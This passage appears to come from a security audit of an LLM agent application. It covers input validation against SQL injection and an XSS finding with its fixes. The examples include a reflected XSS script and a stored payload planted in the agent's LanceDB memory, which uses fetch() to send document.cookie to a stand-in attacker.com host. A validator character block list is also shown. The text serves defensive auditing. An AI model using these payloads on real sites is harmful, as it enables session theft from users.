 **Input Validation**:
```python
from pydantic import BaseModel, Field, validator

class SearchFilters(BaseModel):
    """Validated search filters."""
    tag: Optional[str] = Field(None, max_length=50, pattern=r'^[a-zA-Z0-9_-]+$')
    source: Optional[str] = Field(None, max_length=100)
    limit: int = Field(10, ge=1, le=100)  # Min 1, max 100
    
    @validator('tag', 'source')
    def no_sql_injection(cls, v):
        """Prevent SQL injection patterns."""
        if v and any(char in v for char in ["'", '"', ";", "--", "/*", "*/"]):
            raise ValueError("Invalid characters detected")
        return v
```

**Timeline**: 2 days (parameterized queries + validation)

### 3.3 Cross-Site Scripting (XSS)

**CVSS Score**: 7.5 (HIGH)  
**CWE**: CWE-79 (Cross-site Scripting)

🔴 **HIGH**: LLM output rendered in web interface **without sanitization**

**Attack Scenario**:
```python
# Attacker injects XSS payload in query
malicious_query = "Tell me about <script>alert(document.cookie)</script>"

# LLM echoes the input in response:
# "You asked about <script>alert(document.cookie)</script>. Here's the answer..."

# If response is rendered in HTML without escaping:
# <div>{{ llm_response }}</div>  # VULNERABLE

# Result: XSS executes in victim's browser
```

**Advanced XSS (Stored)**:
```python
# Attacker stores XSS in LanceDB via memory
agent.store_memory({
    "content": "<img src=x onerror='fetch(\"https://attacker.com?cookie=\"+document.cookie)'>"
})

# Later, when memory is retrieved and rendered:
# All users get XSS payload
```

**Required Fix** (P0 - BLOCKING):

```python
import bleach
from markupsafe import escape

class OutputSanitizer:
    """Sanitize LLM output before rendering."""
    
    # Allowed HTML tags (minimal)
    ALLOWED_TAGS = ['p', 'br', 'strong', 'em', 'code', 'pre', 'ul', 'ol', 'li']
    ALLOWED_ATTRS = {}  # No attributes allowed
    
    def sanitize_html(self, content: str) -> str:
        """Remove dangerous HTML/JS."""
        return bleach.clean(
```
